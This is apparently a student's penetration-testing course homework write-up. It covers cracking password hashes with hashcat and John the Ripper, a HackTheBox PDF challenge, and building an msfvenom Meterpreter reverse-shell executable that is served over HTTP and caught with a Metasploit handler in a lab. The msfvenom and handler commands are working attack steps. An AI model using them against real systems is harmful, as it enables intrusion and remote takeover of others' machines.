


<a name="h4---November2024"></a>
# 📆 H4 - November2024!

<a name="contents"></a>
## 📑 Contents

- [📆 H4 - November 2024!](#h4---november-2024)
  - [📑 Contents](#contents)
  - [📋 Assignments](#assignments)
  - [📝 X) Read and Summarize Task](#x-read-and-summarize-task)
    - [🔓 Cracking Passwords with Hashcat](#cracking-passwords-with-hashcat)
    - [🔐 Crack File Password with John](#crack-file-password-with-john)
    - [📹 Hacking User Credentials Videos](#hacking-user-credentials-videos)
    - [💻 HackTricks MSFVenom CheatSheet](#hacktricks-msfvenom-cheatsheet)
  - [🛠️ A) Install and Test Hashcat](#a-install-and-test-hashcat)
  - [🛠️ C) Install and Test John the Ripper](#c-install-and-test-john-the-ripper)
  - [🌐 D) Solve FuffMe Tasks](#d-solve-fuffme-tasks)
  - [📄 E) File Decryption Task](#e-file-decryption-task)
  - [🔒 F) Hash Decryption Task](#f-hash-decryption-task)
  - [⚙️ G) Create a Reverse Shell with msfvenom](#g-create-a-reverse-shell-with-msfvenom)
  - [💻 H) Optional: Windows VM Exercise](#h-optional-windows-vm-exercise)
  - [🛠️ Tools and Hardware Used](#tools-and-hardware-used)
  - [📂 Resources](#resources)

<a name="assignments"></a>
## 📋 Assignments

<details> <summary>Click to expand</summary>
X) Read and Summarize

Karvinen 2022: Cracking Passwords with Hashcat
Karvinen 2023: Crack File Password With John
Santos et al 2017: Hacking User Credentials (30 min)
Polop et al 2024: HackTricks: MSFVenom - CheatSheet
A) Install and Test Hashcat

Install Hashcat and test it by cracking a sample password.
C) Install and Test John the Ripper

Install John the Ripper and test it by cracking the password of a sample file.
D) FuffMe

Install the FuffMe practice target locally. Solve:
Basic Content Discovery
Content Discovery With Recursion
Content Discovery With File Extensions
No 404 Status
Param Mining
Rate Limited
Subdomains - Virtual Host Enumeration
E) File

Crack the encryption of a new file.
F) Hash

Crack the encryption of a new password hash.
G) Create a Reverse Shell with msfvenom

Create a reverse shell malware and connect using Metasploit.
H) Optional

Install a Windows VM and create a reverse shell program for it.
</details>


<a name="x-read-and-summarize-task"></a>
### 📝 X) Read and Summarize Task

<a name="cracking-passwords-with-hashcat"></a>
#### 🔓 Cracking Passwords with Hashcat

https://terokarvinen.com/2022/cracking-passwords-with-hashcat/

This article is a great overview of the basics of cracking passwords with hashcat. 

The tutorial part on how to crack the hash shows how to choose hash type, wordlist etc.

Great to use with host pc, prefer GPU 

<a name="crack-file-password-with-john"></a>
#### 🔐 Crack File Password with John

https://terokarvinen.com/2023/crack-file-password-with-john/

Overview of Jumbo John the ripper, how to compile&install&use

How to crack different file types

```
1password 7z DPAPImk adxcsouf aem aix aix andotp androidbackup androidfde ansible apex apop applenotes aruba atmail axcrypt bestcrypt bestcryptve bitcoin bitlocker bitshares bitwarden bks blockchain cardano ccache cisco cracf dashlane deepsound diskcryptor dmg dmg ecryptfs ejabberd electrum encdatavault encfs enpass ethereum filezilla geli gpg hccap hccapx htdigest ibmiscanner ikescan itunes_backup iwork kdcdump keepass keychain keyring keystore kirbi known_hosts krb kwallet lastpass ldif libreoffice lion lion lotus luks mac mac mcafee_epo monero money mongodb mosquitto mozilla multibit neo network office openbsd_softraid openssl padlock pcap pdf pem pfx pgpdisk pgpsda pgpwde prosody ps_token pse putty pwsafe racf radius radius rar restic sap sense signal sipdump ssh sspr staroffice strip telegram test_tezos tezos truecrypt uaf vdi vmx wpapcap zed zip

``` 

and how to extract the hash from the file.

<a name="hacking-user-credentials-videos"></a>
#### 📹 Hacking User Credentials Videos
O'Reilly
Santos et al 2017: Security Penetration Testing - The Art of Hacking Series Live Lessons

https://learning.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00

Videos teaching about passwords and cracking them

- password storages
- authentication and authorization attacks
- different hash types / algorithms
- cracking tools, john, hashcat
- how to improve password security

<a name="hacktricks-msfvenom-cheatsheet"></a>
#### 💻 HackTricks MSFVenom CheatSheet

https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom

msfvenom cheat sheet guide

Msfvenom is a combination of Msfpayload and Msfencode, its a tool to create malware with payload to open a shell or creating a user.

useful command for later usage in msvenom task:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
`

<a name="a-install-and-test-hashcat"></a>
## 🛠️ A) Install and Test Hashcat

Hashcat previously installed.

Cracking example task with the command

```
hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' /usr/share/wordlists/rockyou.txt
```

`-m 0` means the hash is md5

`'6b1628b016dff46e6fa35684be6acc96'` is the hash to be cracked

`/usr/share/wordlists/rockyou.txt` path to wordlist


password **summer**

171kh/s seems slow, it seems its not using gpu. only one device detected. drivers needed.

<details><summary>November2024!</summary>

cracking pattern, ***month + year + specialchar***

hash
`3e8d90d68c568f9f41e6af732fbe728323bd64be08d7d23e24c4b3d2751c2f19`

create months.hcchr



create specials.hcchr with numbers and common special characters



```
hashcat -m 1400 -a 6 hash.txt months.hcchr --custom-charset1=specials.hcchr ?d?d?d?d?1
```


</details>

<a name="c-install-and-test-john-the-ripper"></a>
## 🛠️ C) Install and Test John the Ripper

already previously installed john.

downloading example zip file to crack
`wget https://terokarvinen.com/2023/crack-file-password-with-john/tero.zip`

creating a hashs file from the protected zip with
`zip2john tero.zip >tero.zip.hash`


cracking with default wordlist with command
´john tero.zip.hash`


found password **butterfly**


<a name="d-solve-fuffme-tasks"></a>
## 🌐 D) Solve FuffMe Tasks

This task wast last weeks optional task, completed in h3
[HERE](https://github.com/lansiri/Tunkeutumistestaus-ici001as3a-3003/blob/main/h3.md#g-optional-install-and-solve-fuffme)


<a name="e-file-decryption-task"></a>
## 📄 E) File Decryption Task

0ld is g0ld.pdf challenge on hackthebox
https://app.hackthebox.com/challenges/0ld%2520is%2520g0ld

task is to find flag from a pdf file.

create hash file from pdf

`pdf2john pdf.pdf > hash.txt`


To decrypt with john using wordlist:

`john --wordlist=/usr/share/wordlists/rockyou.txt oldisgold.hash`


password found, pdf opened!


pdf opened leading to another easy decrypt puzzle


<a name="f-hash-decryption-task"></a>
## 🔒 F) Hash Decryption Task

created an sha512 hash:

```bed4efa1d4fdbd954bd3705d6a2a78270ec9a52ecfbfb010c61862af5c76af1761ffeb1aef6aca1bf5d02b3781aa854fabd2b69c790de74e17ecfec3cb6ac4bf```

inserting hash to hashed.txt file


then to find out what hash it could be, ill use hashid command


sha-512? using rockyou.txt trying to wordlist attack

`hashcat -m 1700 -a 0 hashed.txt /usr/share/wordlists/rockyou.txt`

-m 1700 is sha512
-a 0 is for simple wordlist attack

found password!


<a name="g-create-a-reverse-shell-with-msfvenom"></a>
<a name="h-optional-windows-vm-exercise"></a>
## ⚙️ G) Create a Reverse Shell with msfvenom (+H Optional on windows VM)


Setting up metasploitable 3 windows version


Creating malware with msfvenom

```

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.104 LPORT=4444 -f exe -o reverse_shell.exe

```
Breakdown
`-p windows/meterpreter/reverse_tcp` payload used
`LHOST` attacker host ip
`LPORT` attacker port
`-f exe` format of file
`-o` output file name


When command is run, the reverse_shell.exe is created.

host the file for our windows friend :feelsgood:

`python3 -m http.server -b 192.168.56.104 80`


to start listener on msfconsole
 
`sudo msfconsole`

`use exploit/multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set LHOST 192.168.56.104`
`run`


encountered some errors after this, port was in use, decided to use another port
new malware with port 20202


when host opened file, the session was opened in the multi handler listener


<a name="tools-and-hardware-used"></a>
## 🛠️ Tools and Hardware Used
 Hardware:
- Thinkpad L14, ryzen 4500, 32gb ram
- AMD 5900X, RTX 3080, 32GB RAM
Tools:
kali, metasploitable3, john, hashcat, htb, msfvenom, msfconsole
<a name="resources"></a>
## 📂 Resources

https://docs.nvidia.com/cuda/cuda-installation-guide-linux/

https://terokarvinen.com/2023/crack-file-password-with-john/

https://terokarvinen.com/2022/cracking-passwords-with-hashcat/

https://terokarvinen.com/tunkeutumistestaus/

https://realpython.com/python-http-server/